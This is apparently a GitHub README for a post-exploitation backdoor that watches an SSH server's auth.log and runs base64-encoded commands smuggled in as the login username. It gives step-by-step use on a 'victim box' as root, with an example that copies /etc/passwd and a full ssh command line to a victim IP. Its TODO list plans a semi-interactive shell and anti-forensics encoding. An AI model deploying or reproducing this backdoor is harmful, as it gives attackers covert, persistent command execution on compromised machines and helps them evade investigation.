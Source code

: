 # ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/

   Example:
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
   
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   
   Full example: ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
### TODO
1. Make client to run on attacker box that can handle responces that will be sent out by backdoor. (Semi-interactive shel)
2. Use better encoding/encryption on commands to aid in anti-forensics 
